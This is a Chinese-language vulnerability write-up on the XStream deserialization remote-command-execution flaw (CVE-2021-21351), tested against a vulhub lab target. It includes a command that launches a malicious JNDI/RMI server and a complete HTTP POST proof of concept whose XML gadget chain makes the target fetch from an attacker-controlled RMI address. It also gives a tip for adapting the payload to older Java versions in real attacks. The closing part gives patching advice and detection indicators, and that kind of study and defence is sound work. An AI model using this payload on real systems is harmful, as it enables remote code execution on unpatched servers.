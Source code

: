 # 漏洞名称：XStream 反序列化命令执行漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。XStream是自由软件，可以在BSD许可证的许可下分发。它是一种OXMapping 技术，是用来处理XML文件序列化的框架在将javaBean序列化，或将XML文件反序列化的时候，不需要其它辅助类和映射文件，使得XML序列化不再繁琐。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

---

### 漏洞危害

该漏洞允许恶意第三方在缺少输入验证的情况下而执行恶意代码。

---

### 影响范围

Xstream<=1.4.15

---

## 漏洞原理



------

## 漏洞利用

### 靶机环境

vulhub/xstream/CVE-2021-21351

---

### 利用方式

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意JNDI服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 10.182.234.169
```

![02](./img/xstream_CVE-2021-21351/02.png)

使用上图中基于SpringBoot利用链的RMI地址作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: 192.168.1.189:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://10.182.234.169:1099/schsit</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

**PS** 在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。

发送poc后能够看到靶机来请求了恶意的rmi

![03](./img/xstream_CVE-2021-21351/03.png)

进入目标容器内，可见``touch /tmp/success``已成功执行：

![01](./img/xstream_CVE-2021-21351/01.png)

---


## 威胁防护建议

### 用户处置建议

1. 配置XStream的安全框架为允许的类型使用白名单

2. 注册自己的转换器，以防止解组当前已知的Java运行时关键类型

3. 升级XStream到最新版本

---

### 安全产品检测建议

检测`javax.naming.ldap.Rdn_-RdnEntry`，`com.sun.org.apache.xpath.internal.objects.XRTreeFrag`, `com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM`, `com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces`



